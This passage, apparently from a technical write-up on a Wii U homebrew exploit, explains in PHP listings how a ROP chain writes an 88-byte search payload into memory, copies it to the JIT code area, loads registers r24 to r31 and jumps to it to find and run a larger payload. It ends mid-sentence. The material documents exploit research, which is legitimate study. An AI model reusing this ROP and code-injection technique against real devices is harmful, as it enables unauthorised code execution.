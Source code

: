 This has to be extended by the part of finding/placing a valid copy of the payload in memory, so it can be copied to the JIT-area and executed.

For this purpose a function has been added which allows to write a payload (which will be embedded in the ROP-Chain) directly into memory. The corresponding function can be found in the listing below.
```
function ropgen_writerop_toAddress($path, $dstaddr){
    $payload = wiiuhaxx_loadfilebinary($path);
    $len = strlen($payload);
    for($i = 0; $i < $len; $i +=4) {
        ropgen_writeword_tomem(hexdec (bin2hex (substr($payload, $i, 4))),$dstaddr + $i);
    }
}
```
This payload length is limited by the maximum length of the ROP-Chain. The used payload is just 88 bytes and it's used to find the "real" payload in memory and copy it to a pre-defined address. 
A existing gadget can be used to place arguments for the payload into the registers 24-31. After the payload is writting into memory, it will be copied to the JIT-Area, the registers will be set and the payload will be executed.
An excerpt of the ROP Chain can be found in the listing below.

```
// Write our small search payload somewhere into mem
ropgen_writerop_toAddress($wiiuhaxxcfg_searchpayloadfilepath,$payload_tmp_address);

// Copy it to codegen/jit area
ropgen_copycodebin_to_codegen($codegen_addr, $payload_tmp_address, $search_payload_length);

// Set up some parameters
$regs = array();
$regs[24 - 24] = $ROP_OSFatal;//r24
$regs[25 - 24] = $ROP_Exit;//r25
$regs[26 - 24] = $payload_size;//r26 sizeToCopy
$regs[27 - 24] = $payload_search_for - 0x04;// r27 SearchFor. subtract 0x4 so we don't find THIS accidentally.
$regs[28 - 24] = $payload_start_search;  //r28 start of search
$regs[29 - 24] = $valid_payload_dst_address ; //r29 target address
$regs[30 - 24] = 0x8;//r30 The payload can do this at entry to determine the start address of the code-loading ROP-chain: r1+= r30. r1+4 after that is where the jump-addr should be loaded from. The above r29 is a ptr to the input data used for payload loading.
$regs[31 - 24] = $ROPHEAP;//r31    
ropgen_pop_r24_to_r31($regs);//Setup r24..r31 at the time of payload entry. Basically a "paramblk" in the form of registers, since this is the only available way to do this with the ROP-gadgets currently used by this codebase.

// And run it!
ropchain_appendu32($codegen_addr); //Jump to the codegen area where the payload was written.
```

The actual implementation can be found [here](https://github.com/wiiu-env/wiiuhaxx_common/blob/master/wiiuhaxx_searcher.s).
Afterwards the "real" payload can be copied from the pre-defined address to the JIT-Area, from where it can be executed. See:
